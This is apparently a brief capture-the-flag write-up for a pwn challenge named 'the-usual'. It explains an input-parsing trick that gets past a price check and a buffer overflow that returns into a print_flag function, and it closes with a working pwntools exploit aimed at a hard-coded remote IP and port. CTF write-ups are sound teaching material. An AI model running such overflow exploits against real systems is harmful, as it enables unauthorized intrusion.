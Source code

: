 # the-usual

```
points: 447
text: In the heart of a bustling medieval market, a burly Viking with a formidable beard and weathered armor stumbles upon a peculiar sight—a vibrant flag shop adorned with banners of every hue. Intrigued by the fluttering colors, he enters the shop, his towering frame contrasting with the delicate textiles. With a mix of curiosity and confusion, he marvels at the array of flags, pondering which one might best represent his warrior clan amidst the sea of symbols and sigils.

nc 35.94.129.106 3008

```
we can see that the only spot where we can do an overflow is in the function **print_stand**, to execute it we need to buy the 3rd element

we dont have enough money tho!

to buy it we need to look at the **read_uint** function

###### i aint readin allat ######

for some magical reason ```stroul("0anystring",0LL,10)``` returns 0 but passes all the checks

now inside the **print_stand** function we can do a ret to win to **print_flag**

```py
from pwn import *

r = remote("35.94.129.106", 3008)

r.sendline(b"3")
r.sendline(b"0 M0NT3C4RL0 F7W")
ret = p64(0x0000000000401557)
r.send(b"a"*0x28+ret)
r.interactive()
```